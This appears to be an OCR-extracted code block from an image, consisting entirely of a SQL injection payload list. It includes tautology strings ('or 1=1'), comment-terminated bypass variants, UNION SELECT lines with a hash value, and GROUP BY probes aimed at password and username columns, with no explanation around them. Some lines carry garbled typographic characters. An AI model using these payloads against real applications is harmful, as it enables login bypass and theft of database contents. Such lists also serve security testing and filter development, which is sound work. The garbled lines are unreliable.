 ```bash
'#
" --
" #
"/*
' and 1='1
' and a='a
 or 1=1
 or true
' or ''='
" or ""="
1′) and '1′='1–
' AND 1=0 UNION ALL SELECT '', '81dc9bdb52d04dc20036dbd8313ed055
" AND 1=0 UNION ALL SELECT "", "81dc9bdb52d04dc20036dbd8313ed055
 and 1=1
 and 1=1–
' and 'one'='one
' and 'one'='one–
' group by password having 1=1--
' group by userid having 1=1--
' group by username having 1=1--
 like '%'
 or 0=0 --
 or 0=0 #
 or 0=0 –
' or         0=0 #
' or 0=0 --
' or 0=0 #
' or 0=0 –
" or 0=0 --
" or 0=0 #
" or 0=0 –
%' or '0'='0
 or 1=1
 or 1=1--
 or 1=1/*
 or 1=1#
 or 1=1–
' or 1=1--
' or '1'='1
' or '1'='1'--
' or '1'='1'/*
' or '1'='1'#
' or '1′='1
' or 1=1
' or 1=1 --
' or 1=1 –
' or 1=1--
' or 1=1;#
' or 1=1/*
' or 1=1#
' or 1=1–
') or '1'='1
') or '1'='1--
') or '1'='1'--
') or '1'='1'/*
') or '1'='1'#
') or ('1'='1
') or ('1'='1--
') or ('1'='1'--
') or ('1'='1'/*
') or ('1'='1'#
'or'1=1
'or'1=1′
```